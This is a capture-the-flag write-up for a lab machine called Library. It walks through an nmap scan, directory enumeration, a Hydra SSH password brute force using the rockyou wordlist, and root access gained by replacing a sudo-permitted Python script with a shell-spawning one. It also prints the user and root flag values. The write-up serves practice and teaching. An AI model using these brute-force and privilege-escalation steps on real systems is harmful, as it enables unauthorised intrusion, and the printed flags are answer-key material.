

# Library Write-Up:

Let's get started!

## Port Scan:

As usual, I started with an Nmap scan to see what I was working with:

```
sudo nmap -vv -sS -sV -sC -oN nmap-out {MACHINE_IP}
```

It returned the following ports:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

## Directory Enumeration:

I then used a new tool called **Feroxbuster** to enumerate the website:

```
feroxbuster -u http://{MACHINE_IP}/ -x php,txt,html -w /usr/share/wordlists/directory-list-2.3-medium.txt --extract-links --output page_enum 
```



Incredibly fast, and beautiful too!

It returned the following:

```
http://{MACHINE_IP}/images
http://{MACHINE_IP}/index.html
http://{MACHINE_IP}/robots.txt
```

## Exploration:

There is a **robots.txt** file containing the following:

```
User-agent: rockyou 
Disallow: /
```

Interesting. Maybe this is a hint about the wordlist we are supposed to use?

I looked on the homepage of the site for any hints:


Maybe we can crack this username with Hydra?

I ran the following:

```
hydra -t 64 -l meliodas -P /usr/share/wordlists/rockyou.txt {MACHINE_IP} ssh
```

And we got a password:

```
[22][ssh] host: {MACHINE_IP}   login: meliodas   password: iloveyou1
```

I SSH'd into the machine with the above credentials:

```
ssh meliodas@{MACHINE_IP}
```

## Finding The User Flag:

Now that I have a shell, let's get that user flag!

In the current directory, there is a **user.txt** file:

```
6d488cbb3f111d135722c33cb635f4ec
```

That is the User Flag!

## Getting The Root Flag:

In the home directory, there is a file called **bak.py**:

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

I typed **sudo -l** and got the following:

```
User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

So, I can run the **bak.py** file as super-user. 

I tried seeing if there were any avenues for code injection in the **bak.py** file. I could not find any. 

The file was also write-protected.

But, it turns out that I could delete and then rewrite the file with the same name.

Start by deleting the file:

```
rm -f /home/meliodas/bak.py
```

Then create a new file with the same name. The python code that is written will spawn a bash shell. Since we can run the **bak.py** file as the super-user, the resulting shell should be as root:

```
echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
```

Now we run the new **bak.py** file:

```
sudo python /home/meliodas/bak.py 
```

Now we are root!

Found the file **/root/root.txt**:

```
e8c8c6c256c35515d1d344ee0488c617
```

That is our flag!
